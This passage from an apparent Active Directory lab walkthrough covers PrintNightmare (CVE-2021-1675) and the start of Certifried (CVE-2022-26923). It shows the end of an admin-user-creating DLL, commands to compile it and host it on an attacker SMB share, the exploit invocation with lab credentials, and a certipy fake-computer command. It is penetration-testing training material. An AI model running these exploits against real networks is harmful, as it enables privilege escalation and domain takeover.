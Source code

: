 ```
        break;
    }
    return TRUE;
}

// RUNDLL32 entry point
#ifdef __cplusplus
extern "C" {
#endif

__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
    CreateAdminUserInternal();
}

#ifdef __cplusplus
}
#endif

// Command-line entry point.
int main()
{
    return CreateAdminUserInternal();
}
```

Compile it: `x86_64-w64-mingw32-gcc -shared -opnightmare2.dll adduser.c -lnetapi32`

Create a share: `smbserver.py -smb2support ATTACKERSHARE .`

Launch the exploit:

```
python3 CVE-2021-1675.py north.sevenkingdoms.local/jon.snow:'iknownothing'@winterfell.north.sevenkingdoms.local '\\192.168.56.1\ATTACKERSHARE\pnightmare2.dll'
```

Cleanup:

After the exploitation you will find your dlls inside : `C:\Windows\System32\spool\drivers\x64\3`

Also inside: `C:\Windows\System32\spool\drivers\x64\3\Old\{id}\`

## Certifried - CVE-2022–26923

Oliver Lyak found out a way to escalate privilege as a low privilege user into an active directory. This consist of change the dnsHostName property on a created computer. The idea look the same as samAccountName vulnerability, it is a confusion with name on authentication. Details are here : https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

Create an account with a domain user and set a fake dns name as the domain controller.

certipy account create -u <user> -p <password> -user fakecomputer -dns <same as vuln Domain Controller fqdn>
